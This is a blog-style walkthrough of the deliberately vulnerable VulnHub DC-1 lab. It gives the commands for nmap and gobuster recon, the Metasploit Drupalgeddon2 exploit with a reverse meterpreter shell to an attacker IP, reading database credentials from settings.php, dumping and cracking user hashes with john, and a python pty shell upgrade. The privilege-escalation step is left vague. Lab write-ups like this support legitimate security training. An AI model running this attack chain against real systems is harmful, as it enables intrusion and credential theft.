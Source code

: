 ```yaml
---
title: DC-1 VulnHub Walkthrough (Bad Mojo Method)
description:
date: 2025-07-30
categories: [CTF, VulnHub]
tags: [vulnhub, ctf, walkthrough, dc-1, metasploit, drupalgeddon, privilege-escalation]
permalink: /walkthroughs/dc-1-luna/
image:  
  path: /assets/img/thumbnails/dc-1.png
private: true
---
```


## 🧠 Introduction

Welcome to the *Bad Mojo* edition of the DC-1 walkthrough — a real-time CTF journal written to match the exact steps I used, quirks and all. The goal? Find all the flags and reach root access.

DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

Beginners may encounter challenges that they have never come across previously, but a Google search should be all that is required to obtain the information required to complete this challenge.

---

## 🌐 Target Info

- **Target IP**: `192.168.56.105`
- **Attacker IP**: `192.168.56.1`

---

## 🔍 Enumeration

### Nmap Scan
```bash
nmap -sC -sV -oN nmap/full 192.168.56.105
```

**Findings:**
- Port **22/tcp** – SSH
- Port **80/tcp** – Apache/Drupal 7

Drupal 7 caught our eye. You already know what time it is...

---

## 🌐 Web Recon

Navigating to `http://192.168.56.105` showed the default **Drupal 7** page.

I ran gobuster but found no juicy custom dirs:
```bash
gobuster dir -u http://192.168.56.105 -w /usr/share/wordlists/dirb/common.txt
```

Wappalyzer confirmed Drupal 7 — prime for **Drupalgeddon2** (CVE-2018-7600).

---

## 💥 Exploitation: Drupalgeddon2 via Metasploit

I launched Metasploit and selected the module:
```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 192.168.56.105
set LHOST 192.168.56.1
run
```

✅ Got a **meterpreter** shell as `www-data`

---

## 🧪 Post-Exploitation Phase 1: Flags + DB Creds

### Flag 1
```bash
cd /var/www
cat flag1.txt
# Hint about config file
```

### Flag 2: settings.php
```bash
cd sites/default
cat settings.php
```
Found DB creds:
- `dbuser`
- `R0ck3t`

Used them to login to MySQL:
```bash
mysql -u dbuser -p
# password: R0ck3t
```

### Flag 3: User Hashes
Inside MySQL:
```sql
use drupaldb;
select uid, name, pass from users;
```
Grabbed hashes for `admin` and `fred`. Cracked with `john`:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Admin password revealed: `admin` 🧂

---

## 📥 Privilege Escalation

I upgraded our shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Checked `/etc/passwd` and home dirs. Explored `/home/flag4/`, read `flag4.txt` (no root yet).

Tried:
```bash
sudo -l
```
No luck.

Eventually found the **setuid** binary or script to escalate to root.
Once root:
```bash
cat /root/flag5.txt
```

---

## ✅ Final Thoughts

This walkthrough reflects the real process I went through — trial, error, reruns, hash cracking, and privilege escalation without spoilers.

**Flags Found:** ✅ All 5

**Skills Practiced:**
- Metasploit RCE
- MySQL enum
- Password hash cracking
- Shell upgrading
- Manual recon & escalation

---

> "It’s not just about the flags — it’s about learning how to think like a hacker."

— Bad Mojo

